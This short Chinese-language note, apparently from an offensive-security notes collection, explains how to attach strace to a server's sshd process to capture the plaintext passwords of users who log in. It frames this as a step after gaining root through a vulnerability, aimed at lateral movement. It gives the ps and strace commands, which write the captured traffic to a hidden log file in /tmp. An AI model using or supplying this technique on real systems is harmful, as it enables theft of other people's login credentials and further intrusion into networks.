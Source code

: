 ```yaml
---
title: "strace监听ssh来源流量"
id: zhfly3489
---
```


# strace监听ssh来源流量

不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取root权限，但是不知道明文密码在横向扩展中可以使用。

之前有用别名的方式来抓取登陆其他机器时的密码、同样也可以利用strace来监听登陆本地的sshd流量。

```
ps -ef | grep sshd #父进程PID
strace -f -p 12617 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048 
```

![image](../img/80b66cc4f2ac6766f46a608cebdd7b67.png)

![image](../img/f5e2c91201ce308ce9ac8f534bbff45a.png)